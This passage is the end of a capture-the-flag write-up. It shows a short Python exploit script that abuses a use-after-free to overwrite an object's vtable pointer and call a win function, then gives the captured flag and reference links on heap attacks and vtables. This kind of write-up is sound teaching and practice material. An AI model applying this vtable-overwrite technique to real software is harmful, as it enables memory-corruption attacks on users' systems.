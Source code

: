 ```py
# downloaded[0] = new forensics;   (vptr points to forensic's vtable.)
download_chal(1, 0)

# delete downloaded[0];    (chunk is moved to tcache/fast bin. downloaded[0] itself is unchanged!)
solve_chal(0)

# Chunk is allocated-- reusing the chunk previously deallocated.
# Overwrite vptr of downloaded[0] with &(&win).
submit_writeup(p64(elf.sym['win_addr']), 0x10)

# downloaded[0]->solve() triggers double dereference (due to virtual function resolution) and calls win()!
solve_chal(0)

p.interactive()
```

### Flag
```
gigem{h34pl355_1n_53477l3}
```

[doublefree]: https://heap-exploitation.dhavalkapil.com/attacks/double_free
[vtable-so]: https://stackoverflow.com/a/99341/10239789
[vtable-pablo]: https://pabloariasal.github.io/2017/06/10/understanding-virtual-tables/
[gb-vtable-cpp]: https://godbolt.org/#z:OYLghAFBqd5QCxAYwPYBMCmBRdBLAF1QCcAaPECAMzwBtMA7AQwFtMQByARg9KtQYEAysib0QXACx8BBAKoBnTAAUAHpwAMvAFYTStJg1DIApACYAQuYukl9ZATwDKjdAGFUtAK4sGIM6SuADJ4DJgAcj4ARpjE/gDspAAOqAqETgwe3r7%2ByanpAiFhkSwxcWaJdpgOGUIETMQEWT5%2BAVU1AnUNBEUR0bEJtvWNzTltwz2hfaUDFQCUtqhexMjsHOYAzKHI3lgA1CYbbk4KBMSYrIfYJhoAgje3O0wKCnvKDYwEB/FWd0leUVoeGQIAee3Be1CXySH0EAH10Ex6odfrcIW9YQQIFC9oj6nM9iA9jDzvC8UwTD9yZSACLfKzxGkPMEQgBueEaXjEe1ZqDw6D2/FQ2MEe1UBMpFj2p3QIBQSy%2BhzcSoOZjMJM%2Bewg5jMByOKo1ZKRTD1yqOqrMBKFRJ1ppVqjt5plctctBR3yZd3R7M53N5/L2UQaIq%2B4vp0oIsvlXkV%2BvNOsNX21asdbmJmIRxtTFoJQbiFuzDqVKudIFd7tpzMZKIeTxeexpsTwrMwAqJ/0BwIxpMVPweHaBIJZ4JxWGIzdbmeRG1R6Mb45b6BDuONpEhovJlsJ3c%2BkupjLXY4n6CnFKpxrMtPplbuw55HIIXNoPL5Arzy7DkojUbQMezOqPRctVtYtzUTU9/zVNcQLjNNAMnclIK3PMbRTUC0yLWDvxdBh0DdGcPSrJkZ2ZO4cRYJhQggCU%2By9CF3h7YlJS4SsSLo8EkgAOiFCBLXdAB6fid0EOUhTvLj3w2OYBKEhjPjlPNSLRCF52PXFJQAVjXAA2VjZwhdBuNQYV4mkgjBOEghROMu9DPfAAOMypQs1TFwUhoiI4BZaE4DTeD8DgtFIVBOGVSxrGlJYVkwVUNh4UgrMCryFgAaxADSNH0ThJH8zReBCjheAUEBMsSrQFjgWAYEQeUWCSOhYnISg0Dqhq4mALgzC4Pg6AIWJiogKI8tIKJQgaABPTh4pathBAAeQYWhJqS0gsAooxxBW/BzhqFtipWzBVGqGM1iCqFMB8lagSiYgJo8LBhrOPAWCmry%2BAMYAFAANTwTAAHc5qSRhXpkQQRDEdgpFB%2BQlDUYbdG6gwjBQaxrH0PAomKyAFlQJJHAEfaiou6p8b8CBXFGPxuuCKYSjKPQUjSUnKYZ/JSd6OmBm69pSa6EZPBaPQedqCYOf6OJuYmFnJe6MWZglhYFCi1Y9DOTA1h4bzfNylaCtUeztIAWm0yQ9mAZBkD2TrOK4LUwqsSw11wQgSFi7q9g8Vr6GIN25l4MrktINKMqyjgctIF6Q4CoKCqKkqEryirqogJAFX%2BAgmogFr6u98JWDWfWjZNs2Latswbd4VsXfHWVuv4MHRHEKH65hlR1BWhHSD%2B26klerWOD80ho/yzg5pjdO9lQKgxQN43TfNy3rdtiBPZz2Jff9xOFgQC4x0ofvw8jzLh%2BCzg49Kreg/SzLLo2HWY7PhOkrmfuzHvkfCqf8qFhbYg0mcSQQA
[gb-vtable-c]: https://godbolt.org/#z:OYLghAFBqd5QCxAYwPYBMCmBRdBLAF1QCcAaPECAMzwBtMA7AQwFtMQByARg9KtQYEAysib0QXACx8BBAKoBnTAAUAHpwAMvAFYTStJg1AB9U8lJL6yAngGVG6AMKpaAVxYMQAJgDMpBwAyeAyYAHLuAEaYxN4AHKQADqgKhLYMzm4e3n5JKTYCQSHhLFExXvGWmNZpQgRMxAQZ7p6%2BFphW%2BQy19QSFYZHRcRZ1DU1ZrQojvcH9JYPlAJQWqK7EyOwcAKS%2BwchuWADUmz6Ok/ioAHQIx9ibGgCCd/cEAJ4JmFhUBwBuqHjoBwgACoqK4GMgEgRiMYCAsIAtjgAhA4AehRBwAKm9MAcxHgmAoDvxiESwdUBAcksECNEFBcnk9Xu9PgdJsRXNYjgB2RFPA780ngyHQghAn51CL0JF8gXUyn1RgEYzoJh1aUPTZcgAiB2UCsE6seDyZH0wXzZHII3N5DwFgohUJhYu%2BEqlPht9ztcoS%2BqVKrV7tR6IAkgwENFCB8icRUCx5cRFfTbbLBAcsMQ8N8PsrVUxDZqdVqI1n0PmHmiDtgGO5oqq0gdUF9vngGq4xPbOnSnox3NaDgA1ABiclCjgxwYA8qFjIOJxPSAPh6Px1PjIj7gAlblasv3CvOcEJmkHPAsBL0NiCOsCLsPX7/eOK0z8VAQPUJwRihILuWqBZ9hIM0EKgIG2LwfQ/K1QK8ABWdB/xfEAjlg0sYMcBgwIXBIAFobggp9/SYBc/yRbcnnvAF8MEUwInqN9fS/H9Uz/ACgIIECwKoqDtjg/9aJiZC4M2NCMK8LwsNwnxsC4nM6mIhFAwLci/gBdNM2zYx%2BIgIsMxLMV0CYq0WM1ZFAOpDixLUktAR4gzBPgg5%2BKQ2zhPQzC00k6TfVkoiPJuKzs0I%2BTSKUjVy3RfsWwINtaBPM8L0Va8GEJCAE3wBNrAWJN7goolUFfd9FUYk9mP/EzKU8l0mElTBhMRIcRzHSdp1nCdhK1KAKKBBZvwOEjFO1ZSHy0wrP0pQy%2BrKnkKpuKqarqhrl2atdN3azqVO63r%2BuRUKjT3dE5voNMzWCVIb2y0EhUdK0ZOMQ7apg3kYJ1Y4Xp5GV%2BVul9SA%2Bx9qM0%2Bofo1Qb3QZB5LodEVjt0jT7rq9qjh8N6PTtL78qBz0BQC9AaMBhkQY9J45RYJhgggCippRgVRpuxHkdu%2B6Fy4JTQeTfkX2ggA2XqvAU5EKzR1Bfq07ZuYXHw%2BaDP6lQB4hst%2BnT1NUunrWx0xGYOGCF05lmqfZ/KoBp7rRbsrlJYF7zjBfYW6PoyDja8Tm7Nic30TV2X5e1DglloTgYN4TwOC0UhUE4RxWRWNYcW2HweFIAhNG9pYAGsQBgjR9E4SQA8TkPOF4BQQAzhOg%2B90g4FgGBEBQWMEjoaJyEoNAz3rmJkGALgvC4Pg6BpYhC4gCJc4iYJ6heTg4%2Bby8CAnBhaHH0vSCwEmjHERf0qqGws0LxfMFUKpXBpXPqXaXPaDwCJiDH5wsFzqFTwnsuqAMYAFEizAAHcJ3eQO4/4QQRBiHYFIGQghFAqHUIvXQ3cDBGBAKYYw5hz4RELpAJYqBIRpB3gXdom80j2AYE4FwzQ9CBBmMUUoehchnXSMQrI3dqGdD6BQwY3dKjki6FMMYng2G4I4d0BozCBgxDYVwuhPDhg9CEXMERSwFCR3WHoKEmANg8B9n7HOi9Q4cFULETm2FOaSAOMAZAyADidwuFwQEjgFy4EICQZCscFzOBbvQEkMcuALF4CXLQCwU5pwzr7Dg2dSAsACaQQOwdtEFyLvHROSwK7VxWAQBIh9G4QGbnXNxoRWAbF0fowxxjTHmK8JY3gHx7EZnQHof%2BwhRDiBAbU8Bahc7QNIB/K%2BCRH7qI4P7CJudtETkPqkq0jY%2Bp6IMUYkxZiLFWIgC4rJ0RHGeO8fEpY4YmDpkoD0kJYT079K0fnCwsSfFJ1IKnfZQSfCaKiUc05fjM4cC8Dc3g0S4mlweVmfu%2BDJBAA%3D
